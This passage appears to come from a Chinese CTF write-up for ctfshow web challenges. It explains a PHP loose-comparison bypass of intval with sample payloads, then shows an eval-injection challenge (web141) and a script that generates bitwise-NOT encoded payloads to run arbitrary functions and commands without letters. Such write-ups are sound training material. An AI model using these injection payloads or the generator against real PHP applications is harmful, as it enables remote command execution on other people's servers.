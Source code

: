 通过表格松散比较可以看到0和字符串比较结果为真

![](https://img.npfs06.top/20210228194700.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

所以对于` if(intval($code) == 'ctfshow'){`我们只要让`intval($code)`为0，那么if语句为真，

intval会将非数字字符转换为0，也就是说 `intval('a')==0 intval('.')==0 intval('/')==0`

payload有很多

```
md5(phpinfo())
md5(sleep())
md5(md5())
current(localeconv)
sha1(getcwd())   
......
```



## web141

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

```

先来看下正则表达式
`/^\W+$/` 作用是匹配非数字字母下划线的字符
构造命令还是很简单的,这里用到取反，无字母shell的方法很多，不局限于取反

```php
<?php
//在命令行中运行
/*author yu22x*/
fwrite(STDOUT,'[+]your function: ');
$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
fwrite(STDOUT,'[+]your command: ');
$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```

